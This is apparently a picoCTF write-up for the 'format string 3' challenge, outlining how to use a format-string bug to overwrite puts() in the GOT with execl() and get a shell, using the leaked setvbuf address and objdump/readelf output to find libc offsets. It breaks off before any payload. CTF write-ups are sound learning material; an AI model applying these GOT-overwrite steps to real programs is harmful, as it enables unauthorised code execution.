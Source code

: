 # format string 3 #

## Description ##

This program doesn't contain a win function. How can you win? Download
the binary here. Download the [source
here](format-string-3.c). Download libc here, download the interpreter
here. Run the binary with these two files present in the same
directory.

Additional details will be available after launching your challenge instance.

https://play.picoctf.org/events/73/challenges/challenge/449

## Hints ##

Is there any way to change what a function points to?

## Solution ##

Run executable:

	Howdy gamers!
	Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f1f3c0c83f0
	Hi
	Hi
	/bin/sh

Instead of `puts()` in line 28, we want to call `execl(normal_string, NULL)`. The first
argument is already correct. Somehow we need to control `rsi` (2nd
argument) as well - either as an argument to the command "/bin/bash"
or as NULL so we simply get a shell.

* Overwrite the address of `puts()` with the address of
  `execl()`. Both are in libc, and we can figure out their addresses
  as the program gives away the address of `setvbuf()` in libc.


Similar to 

https://blog.pwntools.com/posts/got-overwrite/

``` bash
objdump -Ds format-string-3 | grep -E 'setvbuf|puts'
```

    3ff578 6172745f 6d61696e 00736574 76627566  art_main.setvbuf
     3ff588 00737464 6f757400 70757473 00737464  .stdout.puts.std
     402040 64726573 73206f66 20736574 76627566  dress of setvbuf
    0000000000401070 <setvbuf@plt>:
      401074:       f2 ff 25 7d 2f 00 00    bnd jmp *0x2f7d(%rip)        # 403ff8 <setvbuf@GLIBC_2.2.5>
    0000000000401080 <puts@plt>:
      401084:       f2 ff 25 8d 2f 00 00    bnd jmp *0x2f8d(%rip)        # 404018 <puts@GLIBC_2.2.5>
      4011c7:       e8 a4 fe ff ff          call   401070 <setvbuf@plt>
      4011e5:       e8 86 fe ff ff          call   401070 <setvbuf@plt>
      401203:       e8 68 fe ff ff          call   401070 <setvbuf@plt>
      40121d:       e8 5e fe ff ff          call   401080 <puts@plt>
      401222:       48 8b 05 cf 2d 00 00    mov    0x2dcf(%rip),%rax        # 403ff8 <setvbuf@GLIBC_2.2.5>
      4012f2:       e8 89 fd ff ff          call   401080 <puts@plt>


``` bash
readelf -s libc.so.6 | grep -E ' puts@@| setvbuf@@| execl@@'
```

	1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
	1361: 00000000000da4d0   405 FUNC    GLOBAL DEFAULT   16 execl@@GLIBC_2.2.5
	1459: 0000000000079bf0   550 FUNC    WEAK   DEFAULT   16 puts@@GLIBC_2.2.5


``` bash
objdump -T libc.so.6 | grep -E ' setvbuf$| puts$| execl$'
```

                                          
    000000000007a3f0  w   DF .text  0000000000000260  GLIBC_2.2.5 setvbuf
    00000000000da4d0 g    DF .text  0000000000000195  GLIBC_2.2.5 execl
    0000000000079bf0  w   DF .text  0000000000000226  GLIBC_2.2.5 puts


